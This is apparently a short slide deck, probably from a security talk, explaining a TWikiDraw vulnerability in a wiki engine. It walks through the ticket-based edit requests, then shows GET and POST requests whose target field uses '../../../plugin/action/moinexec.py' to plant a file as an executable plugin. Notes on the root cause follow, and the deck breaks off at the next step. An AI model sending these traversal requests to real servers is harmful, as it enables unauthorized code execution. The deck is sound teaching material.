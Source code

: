 
## TWikiDraw

<img src="http://twiki.org/p/pub/Plugins/TWikiDrawPlugin/screenshot.png">

---

## Editing an image

* GET /?action=twikidraw&do=modify&target=image.tar
* => Response: file_auth_ticket
    * e.g. fe3321bcda

Note:
- To actually edit an image, first you acquired an auth token (TWikiDraw would check your permissions)

---

## Editing an image

* GET /?action=twikidraw&do=modify&target=image.tar
* => Response: file_auth_ticket
    * e.g. fe3321bcda

then

* POST /?action=twikidraw&do=save&ticket=file_auth_ticket
* &target=image.tar

Note:
- Then you used that token (ticket) to confirm you had permission to edit that image and save it

---

## Editing an ... image?

* GET /?action=twikidraw&do=modify
* &target=../../../plugin/action/moinexec.py

then

* POST /?action=twikidraw&do=save&ticket=file_auth_ticket
* &target=../../../plugin/action/moinexec.py

Note:
- Couple of things wrong here
- Directory traversal and what else?
- Could have associated the original target with the auth ticket and not allowed user to edit anything else

---

## Now that we've planted our new "plugin"
